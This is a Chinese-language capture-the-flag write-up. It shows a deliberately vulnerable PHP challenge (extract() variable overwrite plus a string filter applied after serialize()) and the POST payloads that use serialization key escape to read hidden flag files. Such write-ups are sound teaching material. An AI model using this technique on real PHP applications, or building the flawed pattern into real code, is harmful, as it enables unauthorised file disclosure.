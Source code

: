 ```
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

源码提示phpinfo有东西

打开有一个文件名，但是无法直接读

extract($_POST);这句代码会把我们post上去的东西给替换掉，造成变量覆盖漏洞。

在这里可以使用键逃逸：

这儿只需要一个键值对就行了，我们直接构造会被过滤的键，这样值得一部分充当键，剩下得一部分作为单独得键值对

```
_SESSION[flagphp]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

var_dump的结果为：

```
"a:2:{s:7:"";s:48:";s:1:"1";s:3:"img";s:20:"ZDBnM19mbGxsbGxsYWc=";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}"
```

读取文件后告诉我们flag在d0g3_fllllllag.php文件里，那再构造一遍

```
_SESSION[phpflag]=;s:14:"phpflagphpflag";s:7:"xxxxxxx";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```

就可以读出flag了。